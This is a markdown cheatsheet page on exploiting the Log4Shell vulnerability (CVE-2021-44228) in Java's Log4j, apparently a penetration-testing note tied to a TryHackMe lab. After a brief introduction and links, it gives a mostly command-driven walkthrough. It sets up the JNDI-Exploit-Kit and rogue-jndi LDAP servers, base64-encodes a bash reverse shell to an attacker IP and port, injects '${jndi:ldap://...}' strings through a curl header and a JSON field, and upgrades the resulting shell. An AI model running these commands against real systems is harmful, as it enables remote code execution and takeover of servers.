 # Log4Shell
## Introduction

For amazing visual and practical explanation of the affect on a MineCraft server please watch the [John Hammond - CVE-2021-44228 - Log4j](https://www.youtube.com/watch?v=7qoPDq41xhQ) YouTube video. This vulnerability was possible one of most severe 0days that could have been in use for over ten years and have wide application outside of hacking MineCraft servers. [Log4j](https://en.wikipedia.org/wiki/Log4j) is a Java Logging utility that it is used in web servers and application that use Java may use this logging utility and therefore probably therefore the worst 0day for the longest possible time (since 2014) that was only publicly disclosed and patched in 2021 named [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell). An really interesting example for those that are probably reading this is [Kosmer's PoC](https://github.com/kozmer/log4j-shell-poc) showcasing the exploitation of Ghidra - [[Ghidra-Cheatsheet]]

Additional reading materials
- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)
- https://apkash8.medium.com/exploiting-the-log4j-vulnerability-cve-2021-44228-4b8d9d5133f6

#### JDNI-Injection-Exploit

 [welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit) *"JNDI注入测试工具（A tool which generates JNDI links can start several servers to exploit JNDI Injection vulnerability, like Jackson, Fastjson, etc)"* and pimps's fork [https://github.com/pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) *"JNDI-Exploitation-Kit（A modified version of the great JNDI-Injection-Exploit created by @welk1n. This tool can be used to start an HTTP Server, RMI Server and LDAP Server to exploit java web apps vulnerable to JNDI Injection）"*

```bash
git clone https://github.com/pimps/JNDI-Exploit-Kit.git
cd JNDI-Exploit-Kit
java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L "$yourLdapServer$:1389" -C "echo $base64ReverseShellage | base64 -d | bash"
curl http://poorserver/logs/log4j -H "X-API-Version: ${jndi:ldap://10.10.10.10:1389/$payloadNameFromJDNIexploitkit}"
```

#### Rogue-JNDI
```bash
apt update
apt install openjdk-11-jdk -y
apt-get install maven
mvn -v
git clone https://github.com/veracode-research/rogue-jndi.git
cd rogue-jndi  
mvn package
```

As of 2024 - tooling compatibility install Java 11..similarly as for `ysoserial`, etc
```bash
sudo apt-get install openjdk-11-jdk
```

#### Pass the payload

Use the `rogue-jdni` server to pass a payload. First base64 encode the reverse shell payload.
```bash
echo 'bash -c bash -i >&/dev/tcp/$IP/$PORT 0>&1' | base64
```
Then within the `rogue-jndi` directory.
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $ENCODEDPAYLOAD} | {base64,-d}|{bash,-i}" --hostname "$IP"
```

Post response set "vulnerable parametre to:
Note: port 1389 is the rogue-jndi server
```json
{
	vuln:"${jndi:ldap://$IP:1389/o=tomcat}",
}
```
Upgrade the terminal shell:
```bash
script /dev/null -c bash
```

## References

[THM Solar Room](https://tryhackme.com/room/solar)
[John Hammond - CVE-2021-44228 - Log4j](https://www.youtube.com/watch?v=7qoPDq41xhQ)
[Wikipedia Log4j](https://en.wikipedia.org/wiki/Log4j)
[Wikipedia Log4Shell](https://en.wikipedia.org/wiki/Log4Shell)
[Kosmer's PoC](https://github.com/kozmer/log4j-shell-poc)
[Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
[CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)
[welk1n/JNDI-Injection-Exploit - NOT TESTED](https://github.com/welk1n/JNDI-Injection-Exploit) 
[https://github.com/pimps/JNDI-Exploit-Kit - TESTED](https://github.com/pimps/JNDI-Exploit-Kit) 